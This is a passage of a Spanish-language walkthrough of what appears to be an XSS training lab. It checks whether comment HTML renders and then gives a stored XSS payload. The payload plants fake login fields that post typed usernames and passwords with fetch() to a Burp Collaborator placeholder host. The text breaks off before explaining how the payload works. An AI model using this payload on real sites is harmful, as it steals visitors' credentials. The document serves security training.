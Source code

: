 ![test](/assets/images/XSS/lab15/test.png)

Vemos que agregaremos el siguiente comentario usando las etiquetas HTML `<p></p>` para ver si se interpretan:

Al postear el comentario vemos lo siguiente:

![post](/assets/images/XSS/lab15/post.png)

Y vemos que no estan las etiquetas HTML, por lo que es vulnerable a XSS al parecer. 

Así que ahora el objetivo no es robar las cookies de sesión, si no obtener el usuario y contraseña del usuario que visita los comentarios después de ser publicados, por lo que usaremos el siguiente código:

```xml
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
Que su funcionamiento es el siguiente:
